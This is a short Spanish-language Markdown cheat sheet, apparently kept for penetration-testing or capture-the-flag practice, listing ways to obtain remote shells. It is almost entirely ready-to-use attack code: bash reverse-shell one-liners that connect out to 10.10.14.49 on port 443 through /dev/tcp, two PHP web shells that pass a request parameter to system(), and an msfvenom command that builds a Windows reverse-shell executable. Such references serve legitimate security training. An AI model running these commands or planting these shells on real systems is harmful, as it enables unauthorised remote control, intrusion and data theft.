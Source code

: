 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

## PHP

Ejecución de comandos

```php
  <?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```
## MSFVENOM

### Fichero EXE

```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
